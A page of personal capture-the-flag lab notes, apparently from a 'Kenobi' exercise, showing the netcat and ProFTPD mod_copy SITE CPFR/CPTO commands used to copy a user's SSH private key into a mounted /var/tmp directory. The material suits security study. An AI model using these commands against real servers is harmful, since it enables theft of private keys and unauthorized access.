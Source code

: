 ```yaml
---
title: Copy Private Key from FTP Server to /VAR Directory
updated: 2023-03-24T16:13:33.0000000+04:00
created: 2023-03-24T16:07:36.0000000+04:00
---
```


Copy Private Key from FTP Server to /VAR Directory
Friday, March 24, 2023
4:07 PM

Connect to the FTP server again using netcat

- Command \| nc 10.10.94.61 21

Using the mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

**<u>Do as followed:</u>**

SITE CPFR /home/kenobi/.ssh/id_rsa

![image1](image1-240.png)

- This was basically found when we connected to the SMB share and looked through the log.txt

![image2](image2-105.png)

- Now next command inside the FTP server:

SITE CPTO /var/tmp/id_rsa

![image3](image3-66.png)

-- Reason for choosing the VAR, is because that we found it was a mount from the previous NFS enumeration scans.

